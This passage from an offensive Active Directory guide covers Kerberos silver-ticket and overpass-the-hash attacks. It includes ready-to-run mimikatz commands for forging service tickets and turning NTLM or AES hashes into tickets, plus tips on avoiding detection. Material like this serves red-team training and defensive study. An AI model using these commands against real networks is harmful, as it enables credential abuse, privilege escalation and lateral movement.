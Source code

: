 **Detection Challenges:**
- Tickets appear legitimate to all systems
- No authentication requests to DC
- Very difficult to detect without analyzing ticket contents

---

### 3. Silver Ticket Attack

**What it does:** Forges a service ticket (TGS) for a specific service using that service account's hash.

**Why use it over golden ticket:**
- More targeted and stealthy (only affects one service)
- Doesn't require krbtgt hash
- Generates less network traffic

```powershell
# Create silver ticket for CIFS service
mimikatz # kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-XXX /target:fileserver.corp.local /service:cifs /rc4:SERVICE_ACCOUNT_NTLM_HASH /ptt

# Common services:
# cifs - File shares (\\server\share)
# http - Web applications, PowerShell remoting
# mssql - SQL Server
# ldap - LDAP queries, AD operations
# host - Windows Remote Management (WinRM), scheduled tasks
```

**Limitations:**
- Only works for the specific service
- Ticket lifetime limited to service account's password age
- Target service must use service account, not computer account (for best results)

---

### 4. Overpass-the-Hash (Pass-the-Key)

**What it does:** Uses NTLM hash to request a Kerberos TGT, converting a hash into a valid Kerberos ticket.

**Why it's useful:** Allows Kerberos authentication when you only have an NTLM hash, bypassing protocols that log NTLM authentication.

```powershell
# Request TGT using NTLM hash
mimikatz # sekurlsa::pth /user:Administrator /domain:corp.local /ntlm:NTLM_HASH /run:powershell.exe

# Request TGT using AES256 key (preferred - less detectable)
mimikatz # sekurlsa::pth /user:Administrator /domain:corp.local /aes256:AES_KEY /run:powershell.exe
```

**How it works:**
1. Replaces current user's credentials in memory
2. Spawns new process with replaced credentials
3. Process requests Kerberos TGT using injected hash
4. All subsequent authentication uses Kerberos, not NTLM

---